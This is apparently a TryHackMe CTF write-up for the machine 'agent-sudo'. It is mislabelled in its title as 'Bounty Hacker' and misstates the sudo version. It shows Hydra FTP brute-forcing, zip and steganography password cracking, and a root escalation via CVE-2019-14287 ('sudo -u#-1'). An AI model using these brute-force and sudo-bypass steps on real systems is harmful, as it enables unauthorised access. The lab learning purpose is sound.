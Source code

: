 # [Bounty Hacker CTF] - Writeup

**Platform:** TryHackMe
**Difficulty:** Easy
**Date Completed:** [15.10.2025]  
**Skills Used:** [Password cracking, Steganography]  
**Tools Used:** [Hydra, John the ripper, steghide]

## Executive Summary

This box required me to enumerate open ports, manipulate HTTP headers to discover hidden pages, and crack FTP credentials using Hydra. After logging into FTP, I found password-protected images containing steganographic data, which I extracted using steghide and John the Ripper. The recovered credentials allowed me SSH access as user james. Finally, I exploited CVE-2019-14287 in sudo version 1.18.21p2 to escalate privileges to root by executing commands with user ID -1.

## Initial Reconnaissance

### Port Scanning

As usual I started by scanning the target machine for open ports :

```bash
sudo nmap -sS -sV 10.10.24.78
Starting Nmap 7.80 ( https://nmap.org ) at 2025-10-15 22:46 CEST
Nmap scan report for 10.10.24.78
Host is up (0.034s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.52 seconds
```

**Results:**

- Port 21: FTP
- Port 22: SSH
- Port 80: HTTP

How many open ports ? 3

## Vulnerability Analysis

When visiting the website, the main page shows :

```html
Dear agents, Use your own codename as user-agent to access the site. From, Agent
R
```

I tried to put different alphabet letters as the user-agent (using OWASP ZAP to replicate requests). And with agent C :

```html
Attention chris, <br /><br />

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also,
change your god damn password, is weak! <br /><br />

From,<br />
Agent R
```

But then I do not get any special response when changing my user-agent to J.

How do you redirect yourself to a secret page? user-agent

What is the agent name? chris

I then attempted to find chris' ftp password, using rockyou.txt as a wordlist :

```bash
hydra -l chris -P /home/armould/rockyou.txt ftp://10.10.24.78
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-15 23:12:05
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344390 login tries (l:1/p:14344390), ~896525 tries per task
[DATA] attacking ftp://10.10.24.78:21/

[21][ftp] host: 10.10.24.78   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-10-15 23:13:06
```

FTP password : crystal

After logging into ftp using chris' credentials, I found some "alien images" files, as well as a new text file :

```text
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

This sounds like steganography ! In one of the 2 alien images, I see that there is a hidden zip file (binwalk automatically extracts it for me) :

```bash
 binwalk cutie.png

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22

```

But I cannot unzip it as it is password protected. I thus try to crack it using John the ripper and the rockyou wordlist :

```bash
zip2john 8702.zip > zip_hash

/home/armould/john/run/john zip_hash --wordlist=/home/armould/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 256/256 AVX2 8x])
Cost 1 (HMAC size [KiB]) is 1 for all loaded hashes
Will run 20 OpenMP threads
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
alien            (8702.zip/To_agentR.txt)
1g 0:00:00:00 DONE (2025-10-16 18:23) 3.704g/s 151703p/s 151703c/s 151703C/s 123456..loser69
```

Zip file password : alien

This password lets me access yet another secret text file :

```bash
cat To_agentR.txt
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

After searching for a little bit, I discovered that this is the base64 encoding for 'Area51'.

steg password : Area51

It is now time to go back to the second alien image that seemed to not have any hidden content : It seems like the file was simply password protected.
And indeed :

```bash
steghide extract -sf cute-alien.jpg
Entrez la passphrase:
Écriture des données extraites dans "message.txt".

cat message.txt
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

I obtained J's actual name (hoping that it is also his login) and his password. I can now connect to the target via ssh with his credentials.

Who is the other agent (in full name)? james
SSH password : hackerrules!
What is the user flag? [USERFLAG]

There is also an image in james' directory, and after a little reverse search :
What is the incident of the photo called? Roswell alien autopsy

## Privilege Escalation

After some research, I realised that the sudo version(1.18.21p2) has a vulnerability that can lead to privilege escalation :

CVE number for the escalation : CVE-2019-14287
This exploit works as following : If a user is allowed to run commands as any user EXCEPT root (ALL, !root), they can still execute commands as root by specifying user ID -1.

```bash
sudo -n -u#-1 /bin/bash
root@agent-sudo:~#
```

And I am in !

```bash
cat root.txt
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine.

Your flag is
[ROOTFLAG]

By,
DesKel a.k.a Agent R

```
